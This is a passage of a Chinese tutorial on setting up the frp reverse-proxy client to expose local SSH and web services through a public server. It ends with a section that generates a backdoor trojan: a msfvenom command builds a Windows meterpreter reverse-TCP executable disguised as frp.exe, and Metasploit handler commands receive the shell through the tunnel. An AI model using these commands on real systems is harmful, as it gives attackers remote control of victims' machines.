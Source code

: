 token = 123456			  # 身份验证令牌，与服务端的frps.ini中token一致）
tcp_mux = true

log_file = /usr/local/frp/frpc.log	# 日志相关
log_level = info
log_max_days = 3
authentication_timeout = 0 			# 服务器与客户端时间相差15min会连接失败，0表示不验证

# 配置ssh服务
[ssh]							# 添加ssh节点 
type = tcp
local_ip = 192.168.xxx.xxx      # 或者127.0.0.1
local_port = 22
remote_port = 7001				# 指明由公网服务器的7001端口代理（ssh连接端口，远程服务端口）

# 配置http服务，可用于其他开发
[web01]							# 添加web节点
type = http
local_ip = 192.168.xxx.xxx      # 或者127.0.0.1
local_port = 8080				# 本地8080端口（自定义的tomcat服务）可以通公网服务器7002端口访问
subdomain = web01				# 自定义子域名</code></pre>
——————
3）防火墙端口开放
开放方法和服务端类似
——————
4）客户端启动
<pre>`./frpc -c frpc.ini`</pre>

<hr/>
<h4>3、测试方法：</h4>
方法一：
直接使用Xshell工具，对公网服务器进行连接（公网服务器ip）
端口设置为客户端指定的服务器代理端口（remote_port = 7001）
————
方法二：
使用不在同一局域网下的电脑
<pre><code>ssh admin@***.*.*.* -p 端口

# -p 指定服务器端口号，不指定端口则默认22，但此处修改为我们设置的ssh服务端口7001
# admin 为登录的用户名
# ***.*.*.* 为公网服务器ip/域名</code></pre>

————
注：
如果报错Connection closed by……
1、授予ssh权限
2、开启ssh服务
<hr/>
<h4>4、生成后门木马监听：</h4>
msfvenom -p windows/meterpreter/reverse_tcp lhost=公网服务器ip lport=服务端代理客户端的端口（即remote_port ） -f exe -o frp.exe<br/> use exploit/multi/handler<br/> set payload windows/meterpreter/reverse_tcp<br/> set LHOST 127.0.0.1<br/> set LPORT 5555
（注：这个监听端口lport，与本地转发端口一致）<br/> exploit
